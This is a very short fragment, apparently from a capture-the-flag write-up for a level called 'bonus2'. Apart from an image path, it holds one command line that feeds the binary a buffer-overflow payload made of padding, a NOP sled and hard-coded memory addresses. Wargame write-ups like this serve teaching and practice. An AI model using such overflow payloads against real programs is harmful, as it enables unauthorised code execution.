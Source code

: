 ./bonus2 $(python -c 'print "A"* 40') $(python -c 'print "\x90" * 18 + "\x60\xb0\xe6\xb7" + "ABCD" + "\x58\xcc\xf8\xb7"')
